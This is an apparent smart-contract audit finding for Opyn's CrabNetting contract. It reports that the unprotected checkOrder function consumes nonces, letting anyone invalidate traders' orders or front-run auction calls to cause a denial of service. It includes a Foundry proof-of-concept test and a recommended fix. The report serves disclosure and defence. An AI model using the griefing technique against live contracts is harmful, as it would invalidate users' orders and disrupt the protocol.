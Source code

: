 # `checkOrder` function can be used by a griefer to invalidate an order or cause a DoS by frontrunning the auction calls

## Summary

The `checkOrder` function can be used by an attacker or griefer to invalidate an order by consuming its nonce. It can also be used to cause a potential DoS by frontrunning the auction calls (`depositAuction` or `withdrawAuction`) and invalidating at least one of the orders present in the calldata.

## Vulnerability Detail

The function `checkOrder` present in the `CrabNetting` contract calls the internal function `_checkOrder`, which ends up calling the function `_useNonce` that will check if the nonce is still valid and "consume" it by marking it as used:

https://github.com/sherlock-audit/2022-11-opyn-romeroadrian/blob/main/crab-netting/src/CrabNetting.sol#L447

```solidity
function checkOrder(Order memory _order) external {
    return _checkOrder(_order);
}
```

https://github.com/sherlock-audit/2022-11-opyn-romeroadrian/blob/main/crab-netting/src/CrabNetting.sol#L455

```solidity
function _checkOrder(Order memory _order) internal {
    _useNonce(_order.trader, _order.nonce);
    ...
```

https://github.com/sherlock-audit/2022-11-opyn-romeroadrian/blob/main/crab-netting/src/CrabNetting.sol#L756

```solidity
function _useNonce(address _trader, uint256 _nonce) internal {
    require(!nonces[_trader][_nonce], "Nonce already used");
    nonces[_trader][_nonce] = true;
}
```

Since the `checkOrder` function is an external unprotected function, it can be used by an attacker to invalidate the order of any trader.

## Impact

In the simplest case, this issue can accidentally cause an order to be invalidated by anyone who calls the `checkOrder` to check for the validity of the order params.

In a more elaborated scenario, a griefer can use this function to invalidate any (valid) order of any trader account by simply submitting the order payload to this function. 

It can also be used to cause a DoS in the protocol, since an attacker can frontrun the transactions to the auction functions (`depositAuction` or `withdrawAuction`) and invalidate any of the orders present in the calldata using the `checkOrder` function, causing the transaction to be reverted.

## Code Snippet

The following test reproduces the issue. Here, the `mm1` account signs an order which is then invalidated by the `attacker` account which holds no relation to the `mm1` account or any privileged access to the protocol.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {BaseForkSetup} from "./BaseForkSetup.t.sol";
import {SigUtils} from "./utils/SigUtils.sol";
import {Order} from "../src/CrabNetting.sol";

contract AuditTest is BaseForkSetup {
    SigUtils sig;

    function setUp() public override {
        BaseForkSetup.setUp();
        sig = new SigUtils(netting.DOMAIN_SEPARATOR());
    }
    
    function test_CrabNetting_checkOrder_InvalidateNonceGriefing() public {
        uint256 nonce = 5;

        // nonce is not used
        assertEq(netting.nonces(mm1, nonce), false);

        Order memory order = Order(
            0, // uint256 bidId;
            mm1, // address trader;
            1e18, // uint256 quantity;
            100e18, // uint256 price;
            false, // bool isBuying;
            block.timestamp + 1 days, // uint256 expiry;
            nonce, // uint256 nonce;
            1, // uint8 v;
            0x00, // bytes32 r;
            0x00 // bytes32 s;
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(mm1Pk, sig.getTypedDataHash(order));
        order.v = v;
        order.r = r;
        order.s = s;

        // attacker uses checkOrder to invalidate the nonce
        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        netting.checkOrder(order);

        // Now the nonce has been used and the order won't be valid anymore
        assertEq(netting.nonces(mm1, nonce), true);

        // checking the order again will fail too
        vm.expectRevert("Nonce already used");
        netting.checkOrder(order);
    }
}
```

## Tool used

Manual Review

## Recommendation

It seems the intention of this function is to provide an utility method to publicly verify an order. If so, the recommendation is to:

1. Decouple the order checking from the nonce consumption. `_checkOrder` can just verify that the nonce is not used (`require(!nonces[_trader][_nonce], "Nonce already used");`). The auction functions (`depositAuction` and `withdrawAuction`) can still call `useNonce` to properly consume the nonce of each order.
2. Remove the mutability of the `checkOrder` function by marking it as `view`. 
